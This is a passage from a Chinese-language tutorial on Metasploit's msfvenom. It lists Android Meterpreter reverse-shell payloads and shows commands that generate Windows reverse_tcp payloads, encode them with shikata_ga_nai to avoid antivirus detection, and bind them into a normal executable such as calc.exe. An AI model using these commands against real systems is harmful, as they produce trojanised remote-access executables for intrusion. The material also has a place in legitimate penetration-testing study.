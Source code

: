 ```
    android/meterpreter/reverse_tcp                     Run a meterpreter server in Android. Connect back stager
    android/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_tcp                     Connect back to the attacker and spawn a Meterpreter shell
    ...
```

### 生成payload - 格式说明

* 生成不经过编码的普通payload（不编码->生成内容固定->直接被杀）

```
#格式
msfvenom -p <payload> <payload options> -f <format> -o <path>
#实例
msfvenom –p windows/meterpreter/reverse_tcp –f c –o 1.c
```

* 经过编码器处理后生成payload

```
#格式
msfvenom -p <payload> -e <encoder > -i <encoder times> -n <nopsled> -f <format> -o <path>
#实例
msfvenom –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:\back.exe
```

* 捆绑到正常文件后生成payload（暂未测试是否可加-e参数）

```
Msfvenom –p windows/meterpreter/reverse_tcp –platform windows –a x86 –x C:\calc.exe –k –f exe –o C:\shell.exe
```



### -p [指定攻击载荷名称]

生成payload至少需指定-p 和 -f

除了自带的那些payload外
`-p -`可指定自定义的payload ，如：

```
cat payload_file.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```


```
#暂未测试
cat 1.exe | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f exe -o 2.exe
```


### -f [指定payload的输出格式]
